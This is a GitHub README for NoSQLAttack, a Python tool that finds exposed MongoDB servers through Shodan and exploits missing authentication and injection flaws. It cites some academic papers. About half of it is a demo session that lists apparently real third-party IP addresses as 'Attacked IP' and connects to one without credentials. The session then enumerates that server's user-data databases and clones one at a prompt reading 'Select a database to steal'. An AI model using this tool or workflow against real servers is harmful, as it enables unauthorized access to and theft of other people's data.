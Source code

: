 #[中文说明](https://github.com/youngyangyang04/NoSQLAttack/blob/master/docs/README-zh.md)
#NoSQLAttack
#Introduction
NoSQLAttack is an open source Python tool to automate expose MongoDB server IP on the internet and disclose the database data by MongoDB default configuration weaknesses and injection attacks. Presently, this project focuses on MongoDB.

It is base on [NoSQLMap](http://www.nosqlmap.net/index.html), tcstool's popular NoSQL injection tool and [shodan](https://www.shodan.io/), first search engine for Internet-connected devices. 

Some attack tests are based on and extensions of follow papers
* [Diglossia: Detecting Code Injection Attacks with Precision and Efficiency](http://www.cs.cornell.edu/~shmat/shmat_ccs13.pdf)
* [No SQL, No Injection?](https://www.research.ibm.com/haifa/Workshops/security2015/present/Aviv_NoSQL-NoInjection.pdf)
* [Several thousand MongoDBs without access control on the Internet](https://cispa.saarland/wp-content/uploads/2015/02/MongoDB_documentation.pdf).

There are two systems for testing NoSQL injection in this  project-[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo).
#Background
Injection attacks, for example php array injection, js injection and mongo shell injection, endanger  mongoDB.
There are thousands of mongoDB are exposed on the internet, and hacker can download data from exposed mongoDB.

#Requirements
On a Debian or Red Hat based system, NoSQLAttack's dependencies already be writen in setup.py.
This project is built on Pycharm COMMUNITY 2016.1 with python 2.7.10. 

Varies based on features used:
* Shodan-1.5.3
* httplib2-0.9
* Python-2.7
* pymongo-2.7.2
* requests-2.5.0
* ipcalc-1.1.3
* MongoDB


#Building
On Linux, it goes something like this:
```bash
cd NoSQLAttack
python setup.py install
```
#Tips
* If after entering "python setup.py install", terminal show error information "No module named setuptools", just install setuptools. On Ubuntu, "sudo apt-get install python-setuptools", this command is useful
* Install [MongoDB](https://docs.mongodb.com/manual/administration/install-on-linux/) on computer.

#Usage
After building, you can run NoSQLAttack like this:
```bash
NoSQLAttack
```
Upon starting NoSQLAttack you are presented with the main menu:
```bash
================================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |    _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |_   | |_  | |_| | | |__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
================================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
```
#demo
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?
```

